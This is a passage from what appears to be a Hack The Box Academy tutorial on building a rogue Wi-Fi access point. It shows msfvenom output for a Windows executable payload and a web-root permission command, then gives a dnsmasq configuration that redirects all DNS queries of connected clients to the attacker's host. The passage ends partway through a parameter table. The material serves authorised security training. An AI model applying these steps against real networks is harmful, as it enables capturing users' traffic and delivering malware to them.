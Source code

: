 [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
</code></pre>
<p>Finally, we run the following command to set the correct ownership permissions:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo chown -R www-data:www-data /var/www/html/*
</code></pre>
<p>After that, we can visit <code>localhost</code> in a browser to verify that everything is working correctly.</p>
<p><img alt="Rev" src="https://academy.hackthebox.com/storage/modules/299/rev/000.PNG"/></p>
<hr/>
<h3>3. Configure the Routing</h3>
<p>The next step is to configure routing by setting up the DNS and DHCP servers for the fake access point. These services will assign IP addresses to connected clients and handle their network requests, ensuring seamless connectivity that mimics the legitimate access point.</p>
<p>To configure the routing correctly, we need to follow these steps:</p>
<ul>
<li>
<code>Set up DNS and DHCP for the fake network</code> : Configure DNS and DHCP services for the rogue access point, ensuring clients receive valid IP addresses and can resolve domain names.</li>
<li>
<code>Assign a valid IP address to the wireless interface</code> : Configure the wireless interface hosting the fake access point (e.g., wlan1) with a proper IP address to ensure proper routing.</li>
</ul>
<p>We can use dnsmasq to configure DNS and DHCP for the wlan1 interface. To get started, we need to create a dns.conf file with the following contents:</p>
<pre><code class="language-config">interface=wlan1
dhcp-range=192.168.0.2,192.168.0.254,255.255.255.0,10h
dhcp-option=3,192.168.0.1
dhcp-option=6,192.168.0.1
server=8.8.4.4
server=8.8.8.8
listen-address=127.0.0.1
address=/#/192.168.0.1
log-dhcp
log-queries
</code></pre>
<p>In the above config file, we specify many parameters. These parameters can be broken down like the following:</p>
<table>
<thead>
<tr>
<th>Item</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td><code>Interface</code></td>
<td>The interface which we will be hosting the access point on.</td>
</tr>
<tr>
<td><code>dhcp-range</code></td>
<td>This specifies that the DHCP server will provide IP addresses to connected clients starting from 192.168.0.2 up to 192.168.0.254, and each client will receive a lease for 10 hours. Once the lease time expires, the client will need to request a new IP address.</td>
</tr>
<tr>
<td><code>DHCP option 3</code></td>